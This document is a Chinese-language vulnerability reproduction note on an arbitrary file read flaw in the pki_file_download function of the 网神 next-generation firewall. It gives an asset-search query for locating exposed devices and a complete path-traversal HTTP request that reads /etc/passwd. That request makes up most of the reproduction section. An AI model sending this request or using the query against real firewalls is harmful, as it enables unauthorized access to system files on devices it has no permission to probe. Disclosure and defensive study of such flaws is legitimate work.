


# 网神 下一代极速防火墙 pki_file_download 任意文件读取漏洞

## 漏洞描述

网神下一代极速防火墙 pki_file_download 存在任意文件读取漏洞，攻击者可以通过漏洞获取服务器上的任意文件

## 漏洞影响

```
网神下一代极速防火墙
```

## 网络测绘

```
app="网神下一代极速防火墙"
```

## 漏洞复现

登录页面如下



发送请求包

```plain
GET /?g=pki_file_download&filename=../../../../../etc/passwd HTTP/1.1
Host: 
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __s_sessionid__=7rl7vvg1mlc00gf4pfmo74h0t7
```




